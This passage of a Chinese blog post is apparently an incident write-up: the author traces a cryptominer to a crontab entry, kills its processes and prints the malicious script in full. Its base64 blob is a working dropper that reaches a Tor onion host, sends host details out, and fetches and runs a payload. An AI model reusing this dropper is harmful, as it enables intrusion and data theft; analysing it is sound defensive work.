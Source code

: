 真不巧，看起来不是注册到 systemd 的，那么是谁拉起来的呢？

啊，是 crontab（这在我写这篇文章的时候才注意到）

非常不巧，我当时一心想找是哪个 service，没注意到 crontab 的存在，还以为上次的那个挖矿木马换了个 service 的名字，还去这个路径找了好久，找了半天也没有看到恶意的 service 啊

突然想到我还没看 crontab

于是打开crontab 

发现了一条指令

他静静的呆在那里

像是在嘲笑我太菜了，这个套路都没注意到 :P



于是，注释掉这行，然后对着刚刚 systemd 输出的三个进程一顿 kill

```
           ├─2075 tOAK5Ejl
           ├─2402 tracepath
           └─3226 LDi4ZYIl
```



![](https://static.scuseek.com/20210712153642.png)

再看看负载，瞬间安静了下来

![](https://static.scuseek.com/20210712153744.png)



似乎暂时搞定了，不排除还有其他后手（事后想想，当时的直觉还是对的hh

不过现在有线索了，去看看恶意文件的内容

```bash
[root@localhost ~]# cat .systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh
#!/bin/bash
exec &>/dev/null
echo jeAozqLbO5Ni2rtDL7lwAMXluzYQMl
echo amVBb3pxTGJPNU5pMnJ0REw3bHdBTVhsdXpZUU1sCmV4ZWMgJj4vZGV2L251bGwKZXhwb3J0IFBBVEg9JFBBVEg6JEhPTUU6L2Jpbjovc2JpbjovdXNyL2JpbjovdXNyL3NiaW46L3Vzci9sb2NhbC9iaW46L3Vzci9sb2Nh
bC9zYmluCgpkPSQoZ3JlcCB4OiQoaWQgLXUpOiAvZXRjL3Bhc3N3ZHxjdXQgLWQ6IC1mNikKYz0kKGVjaG8gImN1cmwgLTRmc1NMa0EtIC1tMjAwIikKdD0kKGVjaG8gImJnZ3RzNTQ3Z3VraHZtZjRjZ2FuZGxneHhwaGVuZ3hvd
m95bzZld2huczVxbW1iMmI1b2k0M3lkIikKCnNvY2t6KCkgewpuPShkb2gudGhpcy53ZWIuaWQgZG9oLnBvc3QtZmFjdHVtLnRrIGRucy5ob3N0dXgubmV0IHVuY2Vuc29yZWQubHV4MS5kbnMubml4bmV0Lnh5eiBkbnMucnVieW
Zpc2guY24gZG5zLnR3bmljLnR3IGRvaC1maS5ibGFoZG5zLmNvbSBmaS5kb2guZG5zLnNub3B5dGEub3JnIHJlc29sdmVyLWV1LmxlbHV4LmZpIGRvaC5saSBkbnMuZGlnaXRhbGUtZ2VzZWxsc2NoYWZ0LmNoKQpwPSQoZWNobyA
iZG5zLXF1ZXJ5P25hbWU9cmVsYXkudG9yMnNvY2tzLmluIikKcz0kKCRjIGh0dHBzOi8vJHtuWyQoKFJBTkRPTSUxMSkpXX0vJHAgfCBncmVwIC1vRSAiXGIoWzAtOV17MSwzfVwuKXszfVswLTldezEsM31cYiIgfHRyICcgJyAn
XG4nfGdyZXAgLUV2IFsuXTB8c29ydCAtdVJ8aGVhZCAtbiAxKQp9CgpmZXhlKCkgewpmb3IgaSBpbiAuICRIT01FIC91c3IvYmluICRkIC92YXIvdG1wIDtkbyBlY2hvIGV4aXQgPiAkaS9pICYmIGNobW9kICt4ICRpL2kgJiYgY
2QgJGkgJiYgLi9pICYmIHJtIC1mIGkgJiYgYnJlYWs7ZG9uZQp9Cgp1KCkgewpzb2NregpmPS9pbnQuJCh1bmFtZSAtbSkKeD0uLyQoZGF0ZXxtZDVzdW18Y3V0IC1mMSAtZC0pCnI9JChjdXJsIC00ZnNTTGsgY2hlY2tpcC5hbW
F6b25hd3MuY29tfHxjdXJsIC00ZnNTTGsgaXAuc2IpXyQod2hvYW1pKV8kKHVuYW1lIC1tKV8kKHVuYW1lIC1uKV8kKGlwIGF8Z3JlcCAnaW5ldCAnfGF3ayB7J3ByaW50ICQyJ318bWQ1c3VtfGF3ayB7J3ByaW50ICQxJ30pXyQ
oY3JvbnRhYiAtbHxiYXNlNjQgLXcwKQokYyAteCBzb2NrczVoOi8vJHM6OTA1MCAkdC5vbmlvbiRmIC1vJHggLWUkciB8fCAkYyAkMSRmIC1vJHggLWUkcgpjaG1vZCAreCAkeDskeDtybSAtZiAkeAp9Cgpmb3IgaCBpbiB0b3Iy
d2ViLmluIHRvcjJ3ZWIuaXQKZG8KaWYgISBscyAvcHJvYy8kKGhlYWQgLW4gMSAvdG1wLy5YMTEtdW5peC8wMSkvc3RhdHVzOyB0aGVuCmZleGU7dSAkdC4kaApscyAvcHJvYy8kKGhlYWQgLW4gMSAvdG1wLy5YMTEtdW5peC8wM
Skvc3RhdHVzIHx8IChjZCAvdG1wO3UgJHQuJGgpCmxzIC9wcm9jLyQoaGVhZCAtbiAxIC90bXAvLlgxMS11bml4LzAxKS9zdGF0dXMgfHwgKGNkIC9kZXYvc2htO3UgJHQuJGgpCmVsc2UKYnJlYWsKZmkKZG9uZQo=|base64 -d
|bash

```

